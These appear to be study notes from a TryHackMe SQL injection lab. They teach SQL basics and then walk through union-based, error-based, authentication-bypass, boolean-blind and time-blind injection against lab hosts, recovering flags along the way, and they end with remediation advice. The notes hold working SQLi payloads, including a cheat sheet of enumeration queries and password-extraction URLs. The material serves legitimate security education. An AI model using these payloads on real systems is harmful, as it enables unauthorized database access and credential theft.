




## Resources
Following a list of useful resources and cheat sheets related to SQL Injection.

- [PortSwigger - SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Payload All the Things - SQL Injection](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/)
- [Websec - SQL Injection](https://websec.ca/kb/sql_injection)
- [HackTricks - SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [OWASP - SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

## Introduction
Structured Query Language Injection (SQLi) is an attack on a web application database server that causes malicious queries to be executed. Injection vulnerabilities arise when a web application communicates with a database without syntactic validation of a user's input.

## Database Fundamentals
Database is a way of digitally storing collections of data in an organized manner. A database is controlled by a Database Management System (DBMS). These systems fall into two either being `Relational` or `Non-Relational`. A DBMS can house multiple databases with each database containing its own set of related data.


<br>

A `relational database` is simply a collection of datasets with pre-defined relationships between them. These datasets are organized as a set of tables with columns and rows, making it easy to see and understand how different data structures relate to each other. Each table  typically contains a column with a unique ID (primary key) which is used by other tables as a reference thus creating relationships between tables. Popular examples of relational databases include `Microsoft SQL Server, MySQL, PostgreSQL and MariaDB`.

A `non-relational database` does not use tables, columns and rows (ie. `tabular schema`). Typically a non-relational databases are employed to use a data storage model that is optimized for the specific requirements of the type of data being stored. This lack of structure limitation can have the benefit of providing flexibility over a relational database. Non-relational databases are sometimes referred to as `NoSQL` and popular examples include `MongoDB, Cassandra and ElasticSearch`.

### Tables
A table is made up of columns and rows (not dissimilar from a Microsoft Excel worksheet).

In a table, each column is referred to as a `field` and has a unique name per table. Each column has a dataset type assigned to it which indicates what type of data it will store (ie. integer, strings or dates). As stated earlier, each table typically contains a column with some manner of a unique ID (`key` field) which permits relations to be formed between tables along with the ability to find specific row entries in SQL queries.

Rows or `records` contain individual datasets. When new data is added to a database, a new row is created. Inversely, a row is deleted whenever a record is removed.

## Structured Query Language (SQL)
SQL is used for querying databases. Queries to databases are referred to as `statements`. The most common commands/statements when interfacing with databases include retrieving, updating, inserting and deleting datasets.

It should be noted different database servers have their own syntax and slight variations on how things work. For the rest of these notes, syntax for MySQL databases will be used. Furthermore, it should be noted that SQL syntax is not case sensitive.

#### SELECT
Data is retrieved from a database using the `SELECT` statement. Take for example the statement below.

```sql
SELECT * FROM users;
```
SELECT tells the database that we want to retrieve some data from the database. The `*` lets the database know that we wish to retrieve all columns from the table. The `from users` portion of the statement tells the database which table to retrieve the data from (in this example the data is retrieved from the users table). The `;` at the end of the statement indicates to the database that this is the end of our query.

Similarly, we can structure the statement to retrieve specific columns from the desired table. In this case, the `*` from earlier example statement is replaced with the field names of the desired columns (multiple columns can be retrieved by comma separating the fields).

Take for example the table named *users* below.

|id|username|password|
|:-:|:-:|:-:|
|1|admin|password123|
|2|joe|p4ssw0rd|
|3|jane|qwerty|

<br>

The following statement would return only columns username and password.

```sql
SELECT username,password FROM users;
```
<br>

|username|password|
|:-:|:-:|
|admin|password123|
|joe|p4ssw0rd|
|jane|qwerty|

<br>

While querying the database, we may need to limit the number of records retrieved by our query. This can be accomplished using `LIMIT x` to force the database to return only the specified number (`x`) of records. For example LIMIT 1 tells the database to return only one row of data.

Similarly, we can tell the database to skip a record by using `LIMIT x,y` where `x` denotes the number of records to skip and `y` denotes the number of records to retrieve.

Take for example the following statement used with the *users* table presented above.

```sql
SELECT * FROM users LIMIT 1,2;
```
<br>

|username|password|
|:-:|:-:|
|joe|p4ssw0rd|
|jane|qwerty|

<br>

In the event where a specific record needs to be retrieved, the `WHERE` clause can be used. The following statement used with the *users* table presented above would return the specific record as requested by the statement.

```sql
SELECT * FROM users WHERE username = 'joe';
```
<br>

|username|password|
|:-:|:-:|
|joe|p4ssw0rd|

<br>

Alternatively, we can tell the database to retrieve all records except for the specified record using the following statement.

```sql
SELECT * FROM users WHERE username != 'joe';
```
<br>

|username|password|
|:-:|:-:|
|admin|password123|
|jane|qwerty|

<br>

Similarly, conditional clauses like `OR` and `AND` can used to craft more complex statements based on dataset retrieval requirements.

Take for example the following statement where only records associated with admin or joe will be retrieved.

```sql
SELECT * FROM users WHERE username = 'admin' OR username = 'joe';
```
<br>

|username|password|
|:-:|:-:|
|admin|password123|
|joe|p4ssw0rd|

<br>

Or the following statement where the record will only be retrieved when username is equal to admin and the password is equal to password123.

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password123';
```
<br>

|username|password|
|:-:|:-:|
|admin|password123|

<br>

The `LIKE` clause can be used to specify data which isn't an exact match but instead either starts, contains or ends with certain characters by choosing where to place the wildcard character `%`.

The following statement returns any row with the username beginning with the letter a.

```sql
SELECT * FROM users WHERE username LIKE 'a%';
```
<br>

|username|password|
|:-:|:-:|
|admin|password123|

<br>

The following statement will return any record with the username ending with the letter e.

```sql
SELECT * FROM users WHERE username LIKE '%e';
```
<br>

|username|password|
|:-:|:-:|
|joe|p4ssw0rd|
|jane|qwerty|

<br>

The following statement will return any record where the username contains the letters a and n in the specified order.

```sql
SELECT * FROM users WHERE username LIKE '%an%';
```
<br>

|username|password|
|:-:|:-:|
|jane|qwerty|

<br>

#### UNION
The `UNION` statement is used to combine the results of two or more `SELECT` statements. The UNION statement **must** retrieve the same number of columns in each SELECT statement. The retrieved columns **must** have similar data type and column order.

Consider the following tables named *customers* and *vendors*.

|id|name|address|city|postal|
|:-:|:-:|:-:|:-:|:-:|
|1|Jo Shepard|123 53 Street|Edmonton|T1J 4M3|
|2|Jane Smith|59 Pulsar Street|Calgary|R2Y 4J1|
|3|Paul Rogers|45 Red Street|Edmonton|T6M 2J5|

<br>

|id|company|address|city|postal|
|:-:|:-:|:-:|:-:|:-:|
|1|ACME Co.|52 Gray Avenue|Toronto|Y1T 4B1|
|2|Nova Inc.|125 Stellar Crescent|Vancouver|Y2Z 2J3|
|3|Brown Consulting|143 Homeward Ave|Edmonton|T6J 1J5|

<br>

By utilizing the UNION statement, we can combine results from the two tables above and put them into a single dataset.

```sql
SELECT name,address,city,postal FROM customers UNION SELECT company,address,city,postal FROM vendors;
```
<br>

|name|address|city|postal|
|:-:|:-:|:-:|:-:|
|Jo Shepard|123 53 Street|Edmonton|T1J 4M3|
|Jane Smith|59 Pulsar Street|Calgary|R2Y 4J1|
|Paul Rogers|45 Red Street|Edmonton|T6M 2J5|
|ACME Co.|52 Gray Avenue|Toronto|Y1T 4B1|
|Nova Inc.|125 Stellar Crescent|Vancouver|Y2Z 2J3|
|Brown Consulting|143 Homeward Ave|Edmonton|T6J 1J5|

<br>

#### INSERT
The `INSERT` statement is used to tell the database that we would like to add a new record into the table.

Consider the users table presented earlier.

```sql
INSERT INTO users (username,password) VALUES ('bob','pass');
```
The clause `INTO users` tells the database which table we wish to insert the new record into. `(username,password)` provides the column names we are providing the data for and `VALUES ('bob','pass')` provides the data for the specified columns.

|id|username|password|
|:-:|:-:|:-:|
|1|admin|password123|
|2|joe|p4ssw0rd|
|3|jane|qwerty|
|4|bob|pass|

<br>

#### UPDATE
The `UPDATE` statement allows us to update one or more record within a table.

Consider the statement below. 

```sql
UPDATE users SET username='root',password='pass123' WHERE username='admin';
```
`UPDATE users` tells the database that we would like to update a record in the *users* table. `SET username='root',password='pass123'` tells the the database which field needs to be updated and their associated values. `WHERE username='admin'` specifies the exact row to be updated. The dataset returned would be as follows.

|id|username|password|
|:-:|:-:|:-:|
|1|root|pass123|
|2|joe|p4ssw0rd|
|3|jane|qwerty|
|4|bob|pass|

<br>

Note that the username and password fields for *admin* have been updated respectively.

#### DELETE
The `DELETE` statement allows us to remove specific records for a specified table. `LIMIT x` can be used to specify the number of rows to be deleted.

Consider the following statement.

```sql
DELETE FROM users WHERE username='jane';
```
<br>

|id|username|password|
|:-:|:-:|:-:|
|1|root|pass123|
|2|joe|p4ssw0rd|
|4|bob|pass|

<br>

Note that all data from a table can be expunged by omitting the `WHERE` clause.

```sql
DELETE FROM users;
```
<br>

|id|username|password|
|:-:|:-:|:-:|

## SQL Injection
SQLi is a major yet common attack on web applications which occurs when the application accepts a malicious user input and uses it as part of the SQL statement to query the database.

Consider the following example URL: `https://www.example.com/blog?id=1`

Let's assume that the above URL serves blog posts to the user where each blog entry has a unique id number. The blog entries may be marked as public or private to control access. In the URL above, the blog entry is selected using the id parameter. The web application uses the id parameter in an SQL statement to retrieve the requested entry from the database. An example of the SQL statement may resemble the following.

```sql
SELECT * FROM blog WHERE id=1 AND private=0 LIMIT 1;
```
Here we are requesting the database to retrieve an entry with id equal to 1 and the private parameter set to 0 from the blog database. The retrieved records are limited to a single match by using the LIMIT 1 clause.

Let's assume that blog entry with id equal to 2 is locked as private and cannot be accessed by us. If our inputs are not properly sanitized, we can modify and call the URL: `https://www.example.com/blog?id=2;--`

The vulnerable web application would take the above URL and produce the following SQL statement.

```sql
SELECT * FROM blog WHERE id=2;-- and private=0 LIMIT 1;
```
The semicolon after `id=2` signifies the end of the SQL statement and the two `--` causes everything afterwards to be treated as a comment in MySQL. The database in turn executes the above statement as follows.

```sql
SELECT * FROM blog WHERE id=2;
```
This retrieves the blog entry with an id equal 2 which normally we would not be able to see due to it being marked as private.

The above is a very simple example of basic SQLi vulnerability of a type called In-Band SQL Injection. We will explore this further in the next section.

### In-Band SQLi
In-band SQL injection occurs when an attacker is able to use the same communication channel to both launch the attack and retrieve the results. In-Band SQL injections are considered to be the most common and the easiest type of SQLi to detect and exploit.

The two most common types of in-band SQLi are `Error-Based SQLi` and `Union-Based SQLi`.

- Error-based SQLi rely on error messages created by the database server to obtain information about the structure of the database. This type of SQLi can often be used by an attacker to enumerate an entire database.

- Union-based SQLi leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response. This method is the most common way to extract large amounts of data via an SQLi vulnerability.

Let's look at a practical example of in-band UNION based SQLi attack using MySQL.

The key to discovering error-based SQLi is to break the underlying SQL query by trying certain characters until an error message is produced (typically this is most commonly done using single apostrophe `'` or a quotation mark `"`).

Let's place an `'` after the `id=1` in the URL. Notice the error message. This indicates that the web application is vulnerable to SQLi (particularly error-based SQLi).


Now that we know that the web application is vulnerable to SQLi, we need to return data to the browser without displaying an error message. By utilizing the UNION operator we can retrieve additional results. Recall that when using UNION, the retrieved dataset must have the same number of columns as the preceding SELECT statement.

Let's try `1 UNION SELECT 1` (alternatively we could use `1 UNION SELECT null` which will yield the same result). Notice that the error message returned indicates that there is a mismatch in the number of columns.


Let's keep adding columns until the error message disappears.

At `1 UNION SELECT 1,2,3` (or `1 UNION SELECT null,null,null`) the error message disappears and the article is once again displayed. The reason the article is displayed is because the query takes the first returned result in the web application's code and displays it. We can get around this by setting the original SELECT operator to produce no result by changing the article id to either `0` or `-1`.


We can now dump the list of tables in the active database. We can achieve this by leveraging the fact that we know the database type is MySQL and as such use `information_schema` which contains information on all the databases and tables.

This can be accomplished using: `-1 UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()`

In the statement above:
 - `group_concat(table_name)` tells the database that we want to retrieve the specific column named `table_name` from the multiple returned rows and put it into one string separated by commas. 
 - `information_schema.tables` tells the database that we are interested in all the tables in the database we have access to.
 - `table_schema = database()` indicates which database we would like to retrieve the table names from. In MySQL, `database()` retrieves the name of the active (or current) database.


Now that we know the table names in the database, we can proceed with dumping the columns for a specific table. As the purpose of this exercise is to retrieve the password for user `martin`, we can start with the table `staff_users`.

To dump the columns in a table, we can use: `-1 UNION SELECT null,null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`

In the statement above:
- `group_concat(column_name)` tells the database that we want to retrieve the `column_name` from the multiple returned rows and put it into one string separated by commas.
- `information_schema.columns` contains information on the columns within the tables the user has access to.
- `table_schema = 'staff_users'`  indicates that we wish to retrieve column names for the `staff_users` table.


Now that we know what columns are present in the `staff_users` we can retrieve the user's information using `-1 UNION SELECT null,null,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.

In the statement above, `group_concat` method returns all the rows into one string to make it easier to read. The `':'` is used to split username and password from each other. The HTML tag `<br>` is used to display each result on a separate line instead of being comma separated.


    
We can now confirm martin's password to retrieve the flag: `THM{SQL_INJECTION_3840}`

Let's summarize the steps above into something more general.

1. Verify SQLi vulnerability via entry point detection by escaping the current context.
   ```console
    [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))
   ```
2. Determine the number of columns in the table by using `Order/Group by` or `UNION SELECT` (continue to increment or add additional `null` values until the query is correct).
   ```sql
   ' ORDER BY 1--    
   ' ORDER BY 2--    
   ' ORDER BY 3--    
   ' ORDER BY 4--    #Error: The ORDER BY position number 3 is out of range of the number of items in the select list.
   ```
   OR

   ```sql
   ' UNION SELECT null--           #Error: All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
   ' UNION SELECT null,null--      #Error: All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
   ' UNION SELECT null,null,null-- #Working
   ```
3. Verify column data type to allow retrieval of the results from an injected query. If the data type of a column is not compatible with string data, the injected query will cause a database error.
   ```sql
   ' UNION SELECT 'a',null,null--   #Error: Conversion failed when converting the varchar value 'a' to data type int.
   ' UNION SELECT null,'a',null--   #Error: Conversion failed when converting the varchar value 'a' to data type int.
   ' UNION SELECT null,null,'a'--   #Working
   ```
4. Extract database names, table names, column names and data.
   ```sql
   # Database Names
   ' UNION SELECT null,null,group_concat(schema_name) FROM information_schema.schemata

   # Database Name Alternative for Current/Active Database
   ' UNION SELECT null,null,database()

   # Table Names
   ' UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'SPECIFY_DATABASE_NAME'

   # Table Names Alternative for Current/Active Database
   ' UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()

   # Column Names
   ' UNION SELECT null,null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'SPECIFY_TABLE_NAME'
   
   # Retrieve Data
   ' UNION SELECT null,null,group_concat(SPECIFY_COLUMN_NAME,SPECIFY_COLUMN_NAME) FROM SPECIFY_TABLE_NAME
   ```

## Blind SQLi
Like in-band SQLi,  blind SQL injection (also known as Inferential SQL Injection) arises when a web application is vulnerable to SQLi but the HTTP responses do not contain results of the relevant SQL query or the details of any database error. Blind SQLi requires the attacker to reconstruct the database structure step-by-step by observing the behaviour of the database server and web application. SQL injection techniques like UNION attacks are not as effective in blind SQLi due their reliance on being able to see the results of the injected query but still possible though time consuming.

There are two variants of blind SQL injection that are commonly used: `Content-based Blind SQL Injection` and `Time-based SQL Injection`.

One of the most common and straightforward applications of blind SQL injection technique is bypassing authentication. 

### Authentication Bypass
In authentication bypass attacks, an attacker is less concerned with retrieving data from the database which makes blind SQLi less complex and time consuming.

Often web applications with login forms and their underlying databases are developed in a way that isn't interested in the content of the username and password fields but whether the two fields make a matching pair in a specific table. An authentication bypass attack relies on this behaviour to create a database query that replies with a TRUE or FALSE thereby making valid username/password pair enumeration unnecessary.

Let's look at a practical example of an authentication bypass attack.

The following example web application requires a correct username and password values in order to authenticate the user. 


In the back end, the web application code produces the following SQL query based on a user's input:

```sql
SELECT * FROM users WHERE username = '%username%' and password = '%password%' LIMIT 1;
```
The above query returns a TRUE when a matching pair for username and password are found and FALSE when a matching pair is not found. Note that the `'%username%'` and `'%password%'` values are taken from the login form fields and as result the initial values in the SQL query above will be blank as these fields are empty by default.

In order to make the SQL query above always return a TRUE, we can modify the username or password field with the following conditional (boolean) operator which is always true.

```sql
' OR 1=1;--
```
The `OR` operator in combination with the always true statement `1=1` ensures that the query always returns as a TRUE which satisfies the logic condition that the database found a valid username/password pair and that access should be granted. `--` truncates any proceeding statement from being executed by converting it into a comment. As a result, the original query gets modified to:

```sql
SELECT * FROM users WHERE username = '' OR 1=1;    -- If injected into username field
```
OR

```sql
SELECT * FROM users WHERE username = '' AND password = '' OR 1=1;    -- If injected into password field
```
<br>


By using this modified SQL query, we are able to bypass any user authentication requirements and acquire the flag: `THM{SQL_INJECTION_9581}`

### Content-based Blind SQL Injection
Content-based Blind SQLi (also referred to as Boolean-based Blind SQLi) requires the attacker to observe the behaviour of the database server after making SQL queries containing boolean operators that ask the database `TRUE` and `FALSE` statements.

Consider the following example where a URL, `http://example.com/items.php?id=1`, sends the following query to the database:

```sql
SELECT * FROM items WHERE id = 1;
```
An attacker may manipulate the request and try to inject a query that returns a FALSE:

```url
http://example.com/items.php?id=1 and 1=2
```
As a result, the SQL query changes to:

```sql
SELECT * FROM items WHERE id = 1 AND 1=2;
```
The above SQL query will return a FALSE. If the web application is susceptible to SQLi, then it most likely will not return anything. To verify vulnerability, the attacker should inject a query that will return a TRUE.

```url
http://example.com/items.php?id=1 and 1=1
```
If the contents of the web application injected with a query that returns TRUE are different than those of a query that returns FALSE, it is susceptible to content-based SQLi. Using this knowledge, it is possible to enumerate a whole database structure and its content.

Let's look at a more practical example of how an attacker can leverage content-based blind SQLi to retrieve database structure and eventually a password for a specific user. As we will see with the following example, this method of SQL injection can be extremely time consuming based on the complexity of the database.

The following example web application presents a mock browser with the following URL:

```url
https://website.thm/checkuser?username=admin
```
The underlying SQL query is as follows:

```sql
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```
<br>


The browser body shows the contents of `{"taken":true}` which replicates a common feature found in many sign-up forms that check whether a username already exists during registration and prompt the user to choose a different username.

As we can see in the image above, the value for `taken` is set to `true` which implies that the username `admin` is already registered. Let's select a username that does not exist in the database (`test`) which give us a `taken` value of `false` and manipulate the the query such that it changes the value of `taken` to `true` in order to verify content-based SQLi vulnerability.

```url
https://website.thm/checkuser?username=test' OR 1=1;--
```
<br>



Notice that the even though `test` does not exist as a user and as such should give us a `taken` value of `false`, the addition of `OR 1=1;--` results in the query being always true.

We can now begin enumerating the database structure using the UNION attack technique. Let's start by enumerating the number of columns in the table.

```url
https://website.thm/checkuser?username=test' UNION SELECT null;--
```
<br>


Let's keep adding `null` to the statement until the number of columns match.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null;--
```
<br>


With the number of columns known, we can begin enumerating the name of the database. This can be accomplished by using the built-in `database()` method in MySQL and then using the LIKE operator to try and find results that will return a `true` value for `taken`.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null WHERE database() LIKE 'a%';--
```
<br>


Based on the statement above, we can be confident that the name of the database does not start with the letter 'a'. Continue cycle through all the letters, numbers and characters until the value of `taken` returns a `true`.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null WHERE database() LIKE 's%';--
```
<br>



Based on the result above, we can be confident that the first letter of the database's name is the letter 's'. We can now move onto the next character in the database name (ie. 'sa%', 'sb%, 'sc%', etc.) and continue the iteration process until all the characters of the database name have been discovered (`sqli_three`).

Once we have established the database name, we can begin enumerating the table names using a similar method utilizing the `information_schema` database.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'a%';--
```
Cycle through all the letters, numbers and characters until the value of `taken` returns a `true`. Going through the iterative process, we will discover a table in the `sqli_three` database named `users`.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'users';--
```
<br>


With the table name now known, we can begin enumerating the columns in the `users` table. Here we will leverage the `information_schema.columns` method, database name and table name for enumeration.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name like 'a%';--
```
Cycle through all the letters, numbers and characters until the value of `taken` returns a `true`. As tables have multiple columns, we need to ensure that we add any found column names to our query to avoid re-discovering the same one again. As we iterate through, we will discover one of the column names `id` which we will need to add to our query.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name like 'a%' AND column_name != 'id';--
```
Repeating the iteration process, we will discover three columns in the `users` table: `id`, `username` and `password`. With this knowledge we can start enumerating the password for a known user. Since we know that `admin` is a valid user, we can modify our query to begin the password discover.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM users WHERE username = 'admin' and password LIKE 'a%';--
```
Cycle through all the letters, numbers and characters until the value of `taken` returns a `true`. Repeating the iteration process we will discover the password `3845` for the `admin` user.

```url
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM users WHERE username = 'admin' and password LIKE '3845';--
```
<br>



Using the credentials `admin:3845` we can retrieve the flag: `THM{SQL_INJECTION_1093}`

As obvious for this example, content-based blind SQLi can be a time consuming endeavour but none-the-less allow an attacker to retrieve unauthorized data.

## Time-based Blind SQLi Injection
Time-based blind SQLi injections requires an attacker to observe the behaviour of a web application and its underlying database server after forcing the database to perform a time-intensive operation. If the web application does not return a response immediately, blind SQLi vulnerability is likely. This is useful for scenarios where no visual indicator of queries being TRUE or FALSE are presented.

In MySQL, the built-in method SLEEP(x) alongside with UNION SELECT are typically leveraged.

Let's look at a practical example of time-based blind SQLi.

Begin by enumerating the number of columns in the table. We can do this by combining UNION SELECT with SLEEP(5). If the number of columns guessed is correct, we should observe a 5 second delay in the response time. If there was no pause in the response time then it is likely that the query was unsuccessful. Like in the previous example, we select a username (referrer) which does not exist in the database.

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5);--
```
<br>


Notice that the above query does not cause any time delay in the response time which indicates that our UNION SELECT statement did not execute due to an error (in this case a mismatch of columns between the SELECT statements). Let's continue enumerating the number of columns by incrementing the number of columns.

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null;--
```
<br>


Notice the delay of 5 seconds in the response time. This means that our UNION SELECT query executed successfully and that there are 2 columns.

Based on this behaviour, we can follow the iterative process we used in the content-based blind SQLi attack to determine the database name, table name, column names and the credentials.

Enumerate the database name `sqli_four` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null WHERE database() LIKE 'sqli_four';--
```

Enumerate the table name `users` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'users';--
```

Enumerate column names `username` and `password` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.columns WHERE table_schema = 'sqli_four' AND table_name = 'users' AND column_name LIKE 'username';--
```
<br>

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.columns WHERE table_schema = 'sqli_four' AND table_name = 'users' AND column_name LIKE 'password' AND column_name != 'username';--
```

Enumerate username `admin` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM users WHERE username LIKE 'admin';--
```

Enumerate password `4961` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM users WHERE username = 'admin' AND password LIKE '4961%';--
```
Logging in with the credentials `admin:4961` we acquire the flag: `THM{SQL_INJECTION_MASTER}`

## Out-of-Band SQLi
Out-of-band SQLi is a type of SQL injection where the attacker does not receive a response from the attacked web application on the same communication channel but instead is able to cause the application to send data to a remote endpoint. An out-of-band attack is classified by having two communication channels: one to launch the attack and one to gather the results.

The general process of out-of-band SQLi follows these steps:
1. An attacker makes a request to a web application vulnerable to SQL injection with an injection payload.
2. The web application makes an SQL query to the database which also passes along the attacker's payload to the SQL server.
3. The payload contains a request which forces an HTTP (or DNS) request back to the attackers machine containing data from the database.

Out-of-band SQLi are not considered to be common in practice.

## SQLi Remediation
The following are some common remediation actions which can be put in place as remediation measures against SQLi:

1. **Prepared Statements (with Parameterized Queries)** - In a prepared statement, the developer writes an SQL query first and then adds any user inputs as a parameter afterwards. Writing prepared statements ensures that the SQL code structure doesn't change and the database can distinguish between the query and the data.

2. **Input Validation** - Syntactic validation of user input can significantly help in mitigating SQLi. Employing an allow (white) list can restrict input to only certain characters or strings. String replacement method in the various programming languages can filter the characters a developer wishes to allow or disallow.

3. **Escaping User Input** - Allowing user inputs to contain characters such as `' " $ \` can cause SQL queries to break and even lead to injection attacks. Escaping user input is a method of prepending a backslash (`\`) to these characters which causes them to be parsed just as a regular string and not as a special character in an SQL query.

Additional information on SQL injection prevention can be found at [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).